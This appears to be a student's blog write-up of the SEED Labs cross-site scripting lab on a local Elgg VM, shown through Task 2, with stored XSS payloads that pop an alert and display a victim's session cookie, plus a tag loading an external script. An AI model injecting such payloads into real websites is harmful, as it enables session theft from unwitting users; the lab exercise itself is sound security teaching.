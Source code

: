 ```yaml
---
title: SEED Labs – Cross-Site Scripting Attack Lab
# author: Grace JyL
date: 2020-08-20 11:11:11 -0400
description: 
excerpt_separator: 
categories: [Lab, SEED]
tags: [Lab, XSS]
math: true
# pin: true
toc: true
# image: /assets/img/sample/devices-mockup.png
---
```


# SEED Labs – Cross-Site Scripting Attack Lab

[toc]

---

## Brief
- The tasks are based on a web application called `ELGG` which is open source.
- The prebuilt vm called `seedubuntu` is used to host the web application and few users already created.
- Logging in to the web app will be done from a different vm on the same virtual box network.
- user11: attacker

---

## Task 1 : Post a malicious message to display an alert window

```js
<script>alert('XSS');</script>
```

---

## Task 2 : Posting a malicious message to display cookies
- When a user14 navigates to user11's account
- user14's cookie gets displayed. 
- By design, the browser does not display the code, it runs it.

```js
// short code
<script>alert(document.cookie);</script>

// long code
<script type="text/javascript" src="http网站//www.example.com/myscripts.js"></script>
// store the JavaScript program in a standalone file
// save it with the .js extension
// refer to it using the src attribute in the <script> tag.
```

---